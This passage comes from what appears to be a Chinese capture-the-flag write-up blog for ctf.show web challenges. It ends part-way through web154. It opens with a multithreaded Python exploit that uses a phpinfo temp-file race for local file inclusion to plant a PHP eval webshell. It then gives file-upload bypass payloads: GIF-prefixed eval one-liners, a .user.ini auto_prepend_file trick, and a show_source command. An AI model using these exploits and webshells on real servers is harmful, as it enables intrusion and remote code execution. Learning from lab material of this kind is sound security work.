phpinfo_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)</span><br><span class="line">    lfi_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)</span><br><span class="line"></span><br><span class="line">    phpinfo_socket.connect((host, port))</span><br><span class="line">    lfi_socket.connect((host, port))</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 1. 先向phpinfo发送大数据包, 且其中包含php会将payload放入临时文件中</span></span><br><span class="line">    <span class="comment"># print(phpinfo_request)</span></span><br><span class="line">    <span class="comment"># print(lfi_request)</span></span><br><span class="line">    phpinfo_socket.send(phpinfo_request.encode())</span><br><span class="line"></span><br><span class="line">    phpinfo_response_data = <span class="string">&#x27;&#x27;</span></span><br><span class="line">    <span class="keyword">while</span> <span class="built_in">len</span>(phpinfo_response_data) &lt; offset:</span><br><span class="line">        <span class="comment"># 取不到数据则反复执行</span></span><br><span class="line">        phpinfo_response_data += phpinfo_socket.recv(offset).decode()</span><br><span class="line"></span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        tmp_name_index = phpinfo_response_data.index(<span class="string">&#x27;[tmp_name] =&amp;gt&#x27;</span>)</span><br><span class="line">        <span class="comment"># 获取包含payload的临时文件名</span></span><br><span class="line">        tmp_file_name = phpinfo_response_data[</span><br><span class="line">                            tmp_name_index + <span class="number">17</span>:</span><br><span class="line">                            tmp_name_index + <span class="number">31</span></span><br><span class="line">                        ]</span><br><span class="line">    <span class="keyword">except</span> ValueError:</span><br><span class="line">        <span class="keyword">return</span> <span class="literal">None</span></span><br><span class="line">    <span class="comment"># 2. 再向lfi发送包含payload的临时文件名, 用于包含</span></span><br><span class="line">    lfi_socket.send((lfi_request.<span class="built_in">format</span>(tmp_file_name)).encode())</span><br><span class="line">    <span class="comment"># print(lfi_request.format(tmp_file_name))</span></span><br><span class="line">    lfi_response_data = lfi_socket.recv(<span class="number">4096</span>).decode()</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 3. 停止phpinfo socket连接</span></span><br><span class="line">    phpinfo_socket.close()</span><br><span class="line">    <span class="comment"># 4. 停止lfi socket连接</span></span><br><span class="line">    lfi_socket.close()</span><br><span class="line">    <span class="keyword">if</span> lfi_response_data.find(tag) != -<span class="number">1</span>:</span><br><span class="line">        <span class="comment"># 5. lfi response中存在标识内容则payload执行成功</span></span><br><span class="line">        <span class="keyword">return</span> tmp_file_name</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">class</span> <span class="title class_">ThreadWorker</span>(threading.Thread):</span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">__init__</span>(<span class="params">self, event, lock, max_attempts,</span></span><br><span class="line"><span class="params">                 host, port, phpinfo_request,</span></span><br><span class="line"><span class="params">                 offset, lfi_request, tag,</span></span><br><span class="line"><span class="params">                 shell_code, shell_path,</span></span><br><span class="line"><span class="params">                 lfi_path, lfi_param</span>):</span><br><span class="line">        threading.Thread.__init__(self)</span><br><span class="line">        self.event = event</span><br><span class="line">        self.lock = lock</span><br><span class="line">        self.max_attempts = max_attempts</span><br><span class="line">        self.host = host</span><br><span class="line">        self.port = port</span><br><span class="line">        self.phpinfo_request = phpinfo_request</span><br><span class="line">        self.offset = offset</span><br><span class="line">        self.lfi_request = lfi_request</span><br><span class="line">        self.tag = tag</span><br><span class="line">        self.shell_code = shell_code</span><br><span class="line">        self.shell_path = shell_path</span><br><span class="line">        self.lfi_path = lfi_path</span><br><span class="line">        self.lfi_param = lfi_param</span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">run</span>(<span class="params">self</span>):</span><br><span class="line">        <span class="keyword">global</span> attempts_counter</span><br><span class="line">        <span class="keyword">while</span> <span class="keyword">not</span> self.event.is_set():</span><br><span class="line">            <span class="comment"># 如果没有set event则一直重复执行, 直到已尝试次数大于最大尝试数(attempts_counter &gt; max_attempts)</span></span><br><span class="line">            <span class="keyword">with</span> self.lock:</span><br><span class="line">                <span class="comment"># 获取锁, 执行完后释放</span></span><br><span class="line">                <span class="keyword">if</span> attempts_counter &gt;= self.max_attempts:</span><br><span class="line">                    <span class="keyword">return</span></span><br><span class="line">                attempts_counter += <span class="number">1</span></span><br><span class="line">            <span class="keyword">try</span>:</span><br><span class="line">                tmp_file_name = phpinfo_lfi(</span><br><span class="line">                    self.host, self.port, self.phpinfo_request, self.offset, self.lfi_request, self.tag)</span><br><span class="line">                <span class="keyword">if</span> self.event.is_set():</span><br><span class="line">                    <span class="keyword">break</span></span><br><span class="line">                <span class="keyword">if</span> tmp_file_name:</span><br><span class="line">                    <span class="comment"># 找到tmp_file_name后通过set event停止运行</span></span><br><span class="line">                    <span class="built_in">print</span>(<span class="string">&#x27;\n&#123;shell_code&#125; 已经被写入到&#123;shell_path&#125;中&#x27;</span>.<span class="built_in">format</span>(</span><br><span class="line">                        shell_code=self.shell_code,</span><br><span class="line">                        shell_path=self.shell_path</span><br><span class="line">                    ))</span><br><span class="line">                    <span class="string">&#x27;http://127.0.0.1/test/lfi_phpinfo/lfi.php?load=/tmp/gc&amp;f=uname%20-a&#x27;</span></span><br><span class="line">                    <span class="built_in">print</span>(<span class="string">&#x27;默认调用方法: http://&#123;host&#125;:&#123;port&#125;&#123;lfi_path&#125;?&#123;lfi_param&#125;=&#123;shell_path&#125;&amp;f=uname%20-a&#x27;</span>.<span class="built_in">format</span>(</span><br><span class="line">                        host=self.host,</span><br><span class="line">                        port=self.port,</span><br><span class="line">                        lfi_path=self.lfi_path,</span><br><span class="line">                        lfi_param=self.lfi_param,</span><br><span class="line">                        shell_path=self.shell_path</span><br><span class="line">                    ))</span><br><span class="line"></span><br><span class="line">                    self.event.<span class="built_in">set</span>()</span><br><span class="line">            <span class="keyword">except</span> socket.error:</span><br><span class="line">                <span class="keyword">return</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">get_offset</span>(<span class="params">host, port, phpinfo_request</span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    获取tmp_name在phpinfo中的偏移量</span></span><br><span class="line"><span class="string">    :param host: HOST</span></span><br><span class="line"><span class="string">    :param port: 端口</span></span><br><span class="line"><span class="string">    :param phpinfo_request: phpinfo 请求内容</span></span><br><span class="line"><span class="string">    :return:</span></span><br><span class="line"><span class="string">        tmp_name在phpinfo中的偏移量</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line">    phpinfo_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)</span><br><span class="line">    phpinfo_socket.connect((host, port))</span><br><span class="line">    phpinfo_socket.send(phpinfo_request.encode())</span><br><span class="line">    phpinfo_response_data = <span class="string">&#x27;&#x27;</span></span><br><span class="line">    <span class="keyword">while</span> <span class="literal">True</span>:</span><br><span class="line">        i = phpinfo_socket.recv(<span class="number">4096</span>).decode()</span><br><span class="line">        phpinfo_response_data += i</span><br><span class="line">        <span class="keyword">if</span> i == <span class="string">&#x27;&#x27;</span>:</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">        <span class="comment"># 检测是否是最后一个数据块</span></span><br><span class="line">        <span class="keyword">if</span> i.endswith(<span class="string">&#x27;0\r\n\r\n&#x27;</span>):</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">    phpinfo_socket.close()</span><br><span class="line">    tmp_name_index = phpinfo_response_data.find(<span class="string">&#x27;[tmp_name] =&amp;gt&#x27;</span>)</span><br><span class="line">    <span class="built_in">print</span>(phpinfo_response_data)</span><br><span class="line">    <span class="keyword">if</span> tmp_name_index == -<span class="number">1</span>:</span><br><span class="line">        <span class="keyword">raise</span> ValueError(<span class="string">&#x27;没有在phpinfo中找到tmp_name&#x27;</span>)</span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&#x27;找到了 &#123;&#125; 在phpinfo内容索引为&#123;&#125;的位置&#x27;</span>.<span class="built_in">format</span>(</span><br><span class="line">        phpinfo_response_data[tmp_name_index:tmp_name_index+<span class="number">10</span>], tmp_name_index))</span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> tmp_name_index + <span class="number">256</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">main</span>():</span><br><span class="line">    pool_size = <span class="number">100</span></span><br><span class="line">    host = <span class="string">&#x27;7438117e-d02c-467c-859a-17c47f67b37e.challenge.ctf.show&#x27;</span></span><br><span class="line">    port = <span class="number">8080</span></span><br><span class="line">    phpinfo_path = <span class="string">&#x27;/&#x27;</span></span><br><span class="line">    lfi_path = <span class="string">&#x27;/&#x27;</span></span><br><span class="line">    lfi_param = <span class="string">&#x27;isVIP=1&#x27;</span></span><br><span class="line">    shell_code = <span class="string">&#x27;&lt;?php eval($_POST[&quot;mb&quot;]);?&gt;&#x27;</span></span><br><span class="line">    shell_path = <span class="string">&#x27;/tmp/g&#x27;</span></span><br><span class="line">    <span class="comment"># 最大尝试次数</span></span><br><span class="line">    max_attempts = <span class="number">1000</span></span><br><span class="line"></span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&#x27;LFI With PHPInfo()&#x27;</span>)</span><br><span class="line">    <span class="comment"># 一 生成phpinfo请求内容, 标志内容, lfi请求内容</span></span><br><span class="line">    phpinfo_request, tag, lfi_request = setup(</span><br><span class="line">        host=host, port=port, phpinfo_path=phpinfo_path, lfi_path=lfi_path,</span><br><span class="line">        lfi_param=lfi_param, shell_code=shell_code, shell_path=shell_path)</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 二 获取[tmp_name]在phpinfo中的偏移位</span></span><br><span class="line">    offset = get_offset(host, port, phpinfo_request)</span><br><span class="line"></span><br><span class="line">    sys.stdout.flush()</span><br><span class="line">    thread_event = threading.Event()</span><br><span class="line">    thread_lock = threading.Lock()</span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&#x27;创建线程池 &#123;&#125;...&#x27;</span>.<span class="built_in">format</span>(pool_size))</span><br><span class="line">    sys.stdout.flush()</span><br><span class="line">    thread_pool = []</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">0</span>, pool_size):</span><br><span class="line">        <span class="comment"># 三 多线程执行phpinfo_lfi</span></span><br><span class="line">        thread_pool.append(ThreadWorker(thread_event, thread_lock, max_attempts,</span><br><span class="line">                                        host, port, phpinfo_request, offset,</span><br><span class="line">                                        lfi_request, tag,</span><br><span class="line">                                        shell_code, shell_path,</span><br><span class="line">                                        lfi_path, lfi_param</span><br><span class="line">                                        ))</span><br><span class="line">    <span class="keyword">for</span> t <span class="keyword">in</span> thread_pool:</span><br><span class="line">        t.start()</span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        <span class="keyword">while</span> <span class="keyword">not</span> thread_event.wait(<span class="number">1</span>):</span><br><span class="line">            <span class="keyword">if</span> thread_event.is_set():</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">            <span class="keyword">with</span> thread_lock:</span><br><span class="line">                sys.stdout.write(<span class="string">&#x27;\r&#123;&#125; / &#123;&#125;&#x27;</span>.<span class="built_in">format</span>(attempts_counter, max_attempts))</span><br><span class="line">                sys.stdout.flush()</span><br><span class="line">                <span class="keyword">if</span> attempts_counter &gt;= max_attempts:</span><br><span class="line">                    <span class="comment"># 尝试次数大于最大尝试次数则退出</span></span><br><span class="line">                    <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">if</span> thread_event.is_set():</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&#x27;&#x27;&#x27;success !&#x27;&#x27;&#x27;</span>)</span><br><span class="line">        <span class="keyword">else</span>:</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&#x27;LJBD!&#x27;</span>)</span><br><span class="line">    <span class="keyword">except</span> KeyboardInterrupt:</span><br><span class="line">        <span class="built_in">print</span>(<span class="string">&#x27;\n正在停止所有线程...&#x27;</span>)</span><br><span class="line">        thread_event.<span class="built_in">set</span>()</span><br><span class="line">    <span class="keyword">for</span> t <span class="keyword">in</span> thread_pool:</span><br><span class="line">        t.join()</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    main()</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<h1 id="文件上传"><a href="#文件上传" class="headerlink" title="文件上传"></a>文件上传</h1><figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">151 	后端无验证</span><br><span class="line">152		后端文件类型验证</span><br><span class="line">153		配置文件可控</span><br><span class="line">154		文件魔术字节欺骗</span><br><span class="line">155		配置文件可控</span><br><span class="line">156		文件内容检测[],可用&#123;&#125;绕过</span><br><span class="line">157		脚本的最后一个分号可以省略</span><br><span class="line">158		日志包含</span><br><span class="line">159		突破日志包含检测</span><br><span class="line">160		日志包含突破空格检测</span><br><span class="line">161 	gif89a?绕过get_imagesize判断</span><br><span class="line">162 	include URL文件包含</span><br><span class="line">163		.user.ini 	配置文件远程文件包含（指远程http的包含）</span><br><span class="line">164 	png二次渲染绕过（png文件内容被包含到php文件中进行展出）</span><br></pre></td></tr></table></figure>


<h1 id="web151"><a href="#web151" class="headerlink" title="web151"></a>web151</h1><h2 id="原始信息-61"><a href="#原始信息-61" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示词：前台校验不可靠</p>
<p>html关键代码：</p>
<figure class="highlight html"><table><tr><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-col-md12&quot;</span>&gt;</span></span><br><span class="line">    <span class="tag">&lt;<span class="name">button</span> <span class="attr">type</span>=<span class="string">&quot;button&quot;</span> <span class="attr">class</span>=<span class="string">&quot;layui-btn&quot;</span> <span class="attr">id</span>=<span class="string">&quot;upload&quot;</span> <span class="attr">lay-data</span>=<span class="string">&quot;&#123;url: &#x27;upload.php&#x27;, accept: &#x27;images&#x27;,exts:&#x27;png&#x27;&#125;&quot;</span>&gt;</span></span><br><span class="line">        <span class="tag">&lt;<span class="name">i</span> <span class="attr">class</span>=<span class="string">&quot;layui-icon&quot;</span>&gt;</span><span class="symbol">&amp;#xe67c;</span><span class="tag">&lt;/<span class="name">i</span>&gt;</span>上传图片</span><br><span class="line">    <span class="tag">&lt;/<span class="name">button</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br></pre></td></tr></table></figure>

<p>js代码：</p>
<figure class="highlight js"><table><tr><td class="code"><pre><span class="line">layui.<span class="title function_">use</span>(<span class="string">&#x27;upload&#x27;</span>, <span class="keyword">function</span>(<span class="params"></span>)&#123;</span><br><span class="line">  <span class="keyword">var</span> upload = layui.<span class="property">upload</span>;</span><br><span class="line">   </span><br><span class="line">  <span class="comment">//执行实例</span></span><br><span class="line">  <span class="keyword">var</span> uploadInst = upload.<span class="title function_">render</span>(&#123;</span><br><span class="line">    <span class="attr">elem</span>: <span class="string">&#x27;#upload&#x27;</span> <span class="comment">//绑定元素</span></span><br><span class="line">    ,<span class="attr">url</span>: <span class="string">&#x27;/upload/&#x27;</span> <span class="comment">//上传接口</span></span><br><span class="line">    ,<span class="attr">done</span>: <span class="keyword">function</span>(<span class="params">res</span>)&#123;</span><br><span class="line">    	<span class="keyword">if</span>(res.<span class="property">code</span>==<span class="number">0</span>)&#123;</span><br><span class="line">    		$(<span class="string">&quot;#result&quot;</span>).<span class="title function_">html</span>(<span class="string">&quot;文件上传成功，路径：&quot;</span>+res.<span class="property">msg</span>);</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		$(<span class="string">&quot;#result&quot;</span>).<span class="title function_">html</span>(<span class="string">&quot;文件上传失败，失败原因：&quot;</span>+res.<span class="property">msg</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">      </span><br><span class="line">    &#125;</span><br><span class="line">    ,<span class="attr">error</span>: <span class="keyword">function</span>(<span class="params"></span>)&#123;</span><br><span class="line">      $(<span class="string">&quot;#result&quot;</span>).<span class="title function_">html</span>(<span class="string">&quot;文件上传失败&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">  &#125;);</span><br><span class="line">&#125;);</span><br></pre></td></tr></table></figure>


<h2 id="解题-57"><a href="#解题-57" class="headerlink" title="解题"></a>解题</h2><p>提取的信息有：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">上传到文件: upload.php</span><br><span class="line">前台的png校验</span><br></pre></td></tr></table></figure>

<p>使用BP抓包改包即可,改写的那部分内容如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">-----------------------------<span class="number">3533995436951902473886677854</span></span><br><span class="line">Content-Disposition: form-data; name=<span class="string">&quot;file&quot;</span>; filename=<span class="string">&quot;logo.php&quot;</span></span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89</span><br><span class="line"><span class="meta">&lt;?=</span><span class="keyword">eval</span>(<span class="variable">$_POST</span>[<span class="number">1</span>])<span class="meta">?&gt;</span></span><br><span class="line">-----------------------------<span class="number">3533995436951902473886677854</span>--</span><br></pre></td></tr></table></figure>

<p>然后使用一句话木马翻目录查flag即可：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">POST: 1=show_source(<span class="string">&#x27;../flag.php&#x27;</span>);</span><br></pre></td></tr></table></figure>

<p>后面找到的源代码如下：</p>
<p>upload.php</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>

<p>大小限制，让后就没限制了。</p>
<h1 id="web-152"><a href="#web-152" class="headerlink" title="web 152"></a>web 152</h1><h2 id="原始信息-62"><a href="#原始信息-62" class="headerlink" title="原始信息"></a>原始信息</h2><p>改了提示：后端校验要严密</p>
<p>表示后端审查开始严密了，但是前端审查延续上一道题。</p>
<h2 id="解题-58"><a href="#解题-58" class="headerlink" title="解题"></a>解题</h2><p>继续延续上一题的wp，依然没什么变化。下面是upload处理的后端源码：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">        &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>

<p>限制大小，限制类型为png，然后就没限制了。</p>
<h1 id="web153"><a href="#web153" class="headerlink" title="web153"></a>web153</h1><h2 id="原始信息-63"><a href="#原始信息-63" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示信息：后端不能单一校验</p>
<p>然后就没有然后了。</p>
<h2 id="解题-59"><a href="#解题-59" class="headerlink" title="解题"></a>解题</h2><p>使用的配置文件上传的文件解析漏洞，利用的是nginx出现的配置文件漏洞。</p>
<p>第一次上传文件的：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">auto_prepend_file=a.png</span><br></pre></td></tr></table></figure>

<p>第二次上传文件的内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;a.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">&lt;?=eval($_POST[a])?&gt;</span><br></pre></td></tr></table></figure>

<p>然后一句话木马拿下flag即可。</p>
<p>这个文件嵌入的方法能在这个配置文件下主动创建 <code>index.php</code> 文件，导致出现文件包含漏洞。</p>
<p>下面的是上传文件处理的源码：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">        &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>); nothing here</span><br></pre></td></tr></table></figure>

<p>限制了文件大小 <code>1024k</code> ，文件类型必须是 <code>png</code> ，文件后缀不能为 <code>php</code> .</p>
<h1 id="web154"><a href="#web154" class="headerlink" title="web154"></a>web154</h1><h2 id="原始信息-64"><a href="#原始信息-64" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示信息：后端校验要严密，后端不能单二校验</p>
<h2 id="解题-60"><a href="#解题-60" class="headerlink" title="解题"></a>解题</h2><p>和上面153一样，wp没有变化，照着操作直接出flag即可。</p>
<p>下面是upload源码：</p>
